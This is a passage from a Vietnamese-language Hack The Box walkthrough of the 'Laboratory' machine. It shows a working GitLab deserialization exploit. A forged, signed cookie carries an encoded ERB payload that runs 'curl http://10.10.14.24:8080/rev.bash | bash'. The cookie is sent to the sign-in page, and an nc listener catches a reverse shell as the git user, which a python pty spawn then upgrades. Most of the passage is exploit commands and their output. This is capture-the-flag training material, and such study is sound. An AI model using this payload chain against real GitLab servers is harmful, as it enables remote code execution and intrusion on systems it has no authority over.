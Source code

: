 ```ruby
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.24 port 8080: Connection refused
=> ""

```

Cuối cùng tạo ra giá trị cookie:

```ruby
irb(main):007:0> puts cookies[:cookie]
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kibiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4yNDo4MDgwL3Jldi5iYXNoIHwgYmFzaGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--c13c402abdc9f0aabfd22f5544ab2d713e509334
=> nil
irb(main):009:0> quit
```

Bước 5: Thực hiện

Bây giờ chúng ta đã có giá trị cookie sẵn sàng, chúng ta sẽ chạy lệnh `curl` để thả cho chúng ta một trình bao đảo ngược:

```powershell
cfx:  ~/Documents/htb/laboratory
→ curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvO
kBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5
jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kibiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48P
CgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4yNDo4MDgwL3Jldi5iYXNoIHwgYmFzaGAgKS50b19zKTsgX2VyYm91dAY6BkV
GOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lb
m9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ
6OkRlcHJlY2F0aW9uAAY7ClQ=--c13c402abdc9f0aabfd22f5544ab2d713e509334"
```

Đảm bảo khởi động máy chủ web và trình nghe nc trước khi thực hiện lệnh curl

![12](https://coldfusionx.github.io/assets/img/Posts/Laboratory/shell.png)

```powershell
cfx:  ~/Documents/htb/laboratory
→ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.216.
Ncat: Connection from 10.10.10.216:57334.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=998(git) gid=998(git) groups=998(git)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
git@git:~/gitlab-rails/working$
```
## Shell as dexter
